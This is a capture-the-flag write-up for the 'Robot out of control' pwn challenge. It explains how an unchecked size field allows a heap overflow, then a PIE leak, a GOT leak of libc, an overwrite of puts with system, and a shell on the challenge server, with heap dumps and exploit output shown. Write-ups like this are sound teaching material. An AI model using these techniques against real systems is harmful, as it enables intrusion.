 # Robot out of control

### 464 pts

```
One of our warriors robot (called eva) has been corrupted by an unknow enemy. We have lost the control and he is now in berserk mode. Hopefully we have developped a rescue terminal in case some issue happen. You have to disable the berserk mode through the terminal, you can use all techniques you want. Here is the binary

nc pwn.dvc.tf 8889 
```

files: [robotsoutofcontrol.tgz](./robotsoutofcontrol.tgz)

## Analysis

This time we are simply given the ELF (and the Dockerfile?) and have to find the vulnerability ourselves.

```
$ ./vuln 
	EVA remote rescue terminal
		A. Exit
		B. Drop emergency shell
		C. New command stub
		D. Edit command stub
		E. Print command stub
		F. Inject command stub
		G. Print this menu
		NERV. All right reserved
>>
```

We can create, edit, print and inject "command stubs", that are a struct looking like this, from what I understood:

```c
struct stub {
  char* command_ptr;  // -> stub.command_content
  int command_size;
  char** ramiel_msg = 0x00[]72f0;  // 0x00[]72f0 -> 0x00[]72c0 -> "Damn..."
  int ramiel_size = 0x21;
  char[10] command_content;
}
```

When we create a new command stub, we can specify a command. The code takes only the first 10 chars and put them in `command_content`. The issue is that `command_size` is equal to the size of the string we entered, and not the max size of the `command_content` buffer (10).
So if we enter "AAAAAAAAAAAAAAAAAAAA" (20xA), we will have 10xA in`command_conent` and 0x14 (20) in `command_size`.

This is bad, because the function `edit_command_stub` reads `stub.command_size` chars from the stdin and puts them in `*command_ptr`, creating a heap overflow.

## The heap overflow

When we create 2 stubs, here's the state of the heap:
```
stub0:             0x555582c0    0x00005555
				   0x00000123    0x00000000
				   0x555572f0    0x00005555
                   0x00000021    0x00000000
				   0x41414141    0x41414141
				   0x41414141    0x00414141

dontcare:          0x00000000    0x00000000
				   0x00000021    0x00000000

stub1:             0x55558300    0x00005555
				   0x00000123    0x00000000
				   0x555572f0    0x00005555
				   0x00000021    0x00000000
			       0x42424242    0x42424242
                   0x42424242    0x00424242
```

(Note that both stub have a `command_size` of 0x123, so we can trigger the overflow)

Now, if we edit stub0 and write something like 48xA, we now have:

```
stub0:             0x555582c0    0x00005555
				   0x00000123    0x00000000
				   0x555572f0    0x00005555
                   0x00000021    0x00000000
				   0x41414141    0x41414141
				   0x41414141    0x00414141

dontcare:          0x41414141    0x41414141
				   0x41414141    0x41414141

stub1:             0x41414141    0x41414141
				   0x41414141    0x41414141
				   0x5555720a    0x00005555
				   0x00000021    0x00000000
			       0x42424242    0x42424242
                   0x42424242    0x00424242
```

We successefully overwritted pointers of stub1 !
Since we can control the pointers of stub1, we know we have both arbitrary write and arbitrary read thanks to the functions `print_command_stub` and `edit_command_stub` that both uses `stub.command_ptr` to perform.

I was really happy when achieving this, but when trying to exploit it locally nothing worked, I completely forgot that the binary was PIE... Went to sleep sad because I could not think straight.


### Bypass PIE

When explaining where I was to a teammate, we quickly found out how to leak an address in order to bypass PIE, we just had to write until just before the address we want to leak and print the command of stub0, that will print the heap until a null byte, which means leaking an address!

Thanks to that, we can leak the address of the hard coded string "DAMN, we are getting fucked by Ramiel" (who tf is ramiel anyway), and since the string is in the data section, we can retrieve the base address of the binary by substracting it's offset.

### Bypass ASLR

Since we have bypassed PIE, we can now use a ret2plt attack in order to leak and address of a LIBC function and retrieve the base address of LIBC with the same process for the PIE bypass. 
Since I know the base address of the binary, I also know where the GOT segment is, so I made another heap overflow, since time overwritting the value of `stub.command_ptr` with the address of `got.puts`. Then we simply need to call `print_command_stub` on the stub, and this will leak the content of `got.puts`, which is the address of the libc puts in the memory (where libc has been mapped). Since the version of libc is not known, we also have to find the version by leaking 2 other functions, and going to a site like [this one](https://libc.rip/) in order to get the version of libc and the interesting offset (the offset of puts in order to calculate libc base address and the offset of system to our ret2libc attack)

### Ret2libc

Now, it's a simple ret2libc attack: since I already have an arbitrary write, I just have to replace the address of `got.puts` to the address of system, that we can calculate since we have bypassed ASLR.

Once, we did that, we just have to write "/bin/sh" as the `command_content` of a stub, and when we'll `print_command_stub` on it, it will execute `system("/bin/sh")` :)


### Conclusion

My entire exploit code is [here](./exploit.py)

```
$ python3 exploit.py
[*] '/home/gammray/Documents/CTF/dvctf/pwn/robot_out_of_control/vuln'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to pwn.dvc.tf on port 8889: Done
[*] Creating attacking stub n°0 with max command size of 512
[*] stub n°0 created
[*] Creating attacking stub n°1 with max command size of 512
[*] stub n°1 created
[*] Editing stub n°0
[*] stub n°0 edited
STUB ADDR        :  0x55c44a3a32f0
BASE ADDR OFFSET :  0x6ef4e4c000
PUTS GOT ADDR    :  0x55c44a3a3220
[*] Creating attacking stub n°3 with max command size of 512
[*] stub n°3 created
[*] Creating attacking stub n°4 with max command size of 512
[*] stub n°4 created
[*] Editing stub n°3
[*] stub n°3 edited
LIBC PUTS        :  0x7ffa23cc4ed0
LIBC BASE ADDR   :  0x7ffa23c40000
SYSTEM ADDR      :  0x7ffa23c94d60
[*] Creating attacking stub n°9 with max command size of 512
[*] stub n°9 created
[*] Creating attacking stub n°10 with max command size of 512
[*] stub n°10 created
[*] Editing stub n°9
[*] stub n°9 edited
[*] Editing stub n°10
[*] stub n°10 edited
[*] Creating attacking stub n°11 with max command size of 512
[*] stub n°11 created
[*] Switching to interactive mode
Enter the index of your command stub (should be in range 0,255 included)
>>sh: 1: Start: not found
$ ls
flag
run
```